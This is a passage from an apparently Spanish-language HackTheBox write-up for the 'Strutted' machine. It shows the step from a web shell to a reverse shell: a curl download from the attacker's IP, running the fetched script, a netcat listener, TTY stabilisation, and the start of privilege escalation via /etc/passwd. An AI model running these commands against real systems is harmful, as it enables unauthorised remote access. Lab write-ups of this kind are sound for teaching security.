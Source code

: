![server_python](/assets/img/HackTheBox/MachineStrutted/server_python.png)

De parte de la web Shell vamos a hacer lo siguiente
```bash
curl 10.10.14.220:8000 -o /tmp/reverseshell
```
luego
```bash
bash /tmp/revershell
```

OJO: para hacer eso deben estar en modo listening con netcat en la maquina atacante
```bash
nc -nlvp <port>
```
![listening_netcat](/assets/img/HackTheBox/MachineStrutted/listening_netcat.png)

Obtendremos una bash en nuestra maquina atacante, podemos hacer un tratamiento de la tty para operar mejor

```bash
script /dev/null -c bash
stty raw echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
```
## ESCALADA DE PRIVILEGIOS
Observamos el /etc/passwd y tenemos un usuario llamado james
